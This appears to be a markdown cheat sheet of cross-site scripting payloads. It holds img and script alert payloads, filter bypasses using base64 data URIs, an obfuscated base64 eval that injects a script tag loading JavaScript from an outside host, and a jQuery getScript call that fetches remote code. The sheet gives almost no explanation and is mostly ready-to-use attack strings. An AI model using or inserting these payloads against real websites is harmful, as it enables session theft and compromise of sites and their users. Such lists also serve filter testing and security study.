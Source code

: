 ```
<IMG SRC=javascript:alert("XSS")>
```

```
<IMG SRC=`javascript:alert("RSnake says,'XSS'")`>
```

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

```
<IMG SRC=javascript:alert('XSS')>
```

### Using Data URIs: 
- https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris

Base64-decoded payload: 

```
<script>alert("Hello");</script>
```

Base64-encoded payload:

```
PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```

In data URI:

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```

In data URI image:

```
data:image/gif;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpIC8+
```

### Base64 eval:

```
eval(atob('dmFyIHg9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7eC5zcmMgPSAiLy9hZXJzdC5vbmUvcC94Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=='))
```

- From <https://aerst.one/p/xss.html> 

### jQuery:

```
$.getScript('//thegetch.github.io/x');
```

